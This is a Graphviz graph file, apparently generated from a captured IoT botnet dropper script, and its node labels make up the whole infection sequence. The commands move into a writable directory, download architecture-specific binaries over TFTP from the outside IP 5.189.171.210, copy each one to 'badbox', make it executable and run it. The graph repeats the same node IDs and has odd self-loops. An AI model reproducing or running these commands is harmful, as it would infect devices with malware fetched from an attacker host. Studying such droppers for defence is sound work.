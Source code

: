 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 14 [label="||,"];
14 [label="tftp -r arcms -g 5.189.171.210 "];
14 -> 16 [label=";,"];
16 [label="cat arcms badbox "];
16 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 34 [label="||,"];
34 [label="tftp -r arcml -g 5.189.171.210 "];
34 -> 36 [label=";,"];
36 [label="cat arcml badbox "];
36 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 54 [label="||,"];
54 [label="tftp -r arc4t -g 5.189.171.210 "];
54 -> 56 [label=";,"];
56 [label="cat arc4t badbox "];
56 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 74 [label="||,"];
74 [label="tftp -r arc4l -g 5.189.171.210 "];
74 -> 76 [label=";,"];
76 [label="cat arc4l badbox "];
76 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 94 [label="||,"];
94 [label="tftp -r arc5l -g 5.189.171.210 "];
94 -> 96 [label=";,"];
96 [label="cat arc5l badbox "];
96 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 114 [label="||,"];
114 [label="tftp -r arc6l -g 5.189.171.210 "];
114 -> 116 [label=";,"];
116 [label="cat arc6l badbox "];
116 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 134 [label="||,"];
134 [label="tftp -r arc7l -g 5.189.171.210 "];
134 -> 136 [label=";,"];
136 [label="cat arc7l badbox "];
136 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 154 [label="||,"];
154 [label="tftp -r arcsh -g 5.189.171.210 "];
154 -> 156 [label=";,"];
156 [label="cat arcsh badbox "];
156 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 174 [label="||,"];
174 [label="tftp -r arcpc -g 5.189.171.210 "];
174 -> 176 [label=";,"];
176 [label="cat arcpc badbox "];
176 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 194 [label="||,"];
194 [label="tftp -r arc440 -g 5.189.171.210 "];
194 -> 196 [label=";,"];
196 [label="cat arc440 badbox "];
196 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 214 [label="||,"];
214 [label="tftp -r arcm68 -g 5.189.171.210 "];
214 -> 216 [label=";,"];
216 [label="cat arcm68 badbox "];
216 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 234 [label="||,"];
234 [label="tftp -r arcsprc -g 5.189.171.210 "];
234 -> 236 [label=";,"];
236 [label="cat arcsprc badbox "];
236 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 254 [label="||,"];
254 [label="tftp -r arc32 -g 5.189.171.210 "];
254 -> 256 [label=";,"];
256 [label="cat arc32 badbox "];
256 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 274 [label="||,"];
274 [label="tftp -r arc38 -g 5.189.171.210 "];
274 -> 276 [label=";,"];
276 [label="cat arc38 badbox "];
276 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 294 [label="||,"];
294 [label="tftp -r arc48 -g 5.189.171.210 "];
294 -> 296 [label=";,"];
296 [label="cat arc48 badbox "];
296 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 314 [label="||,"];
314 [label="tftp -r arc58 -g 5.189.171.210 "];
314 -> 316 [label=";,"];
316 [label="cat arc58 badbox "];
316 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 334 [label="||,"];
334 [label="tftp -r arc64 -g 5.189.171.210 "];
334 -> 336 [label=";,"];
336 [label="cat arc64 badbox "];
336 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 344 [label=";,"];
344 [label="cd /tmp "];
344 -> 344
346 [label="cd /var/run "];
346 -> 348 [label="||,"];
348 [label="cd /mnt "];
348 -> 350 [label="||,"];
350 [label="cd /root "];
350 -> 352 [label="||,"];
352 [label="cd / "];
352 -> 354 [label="||,"];
354 [label="tftp -r arc68 -g 5.189.171.210 "];
354 -> 356 [label=";,"];
356 [label="cat arc68 badbox "];
356 -> 358 [label=";,"];
358 [label="badbox "];
358 -> 358
360 [label="chmod +x * "];
360 -> 362 [label=";,"];
362 [label="./badbox "];
362 -> 363 [label=";,"];
}
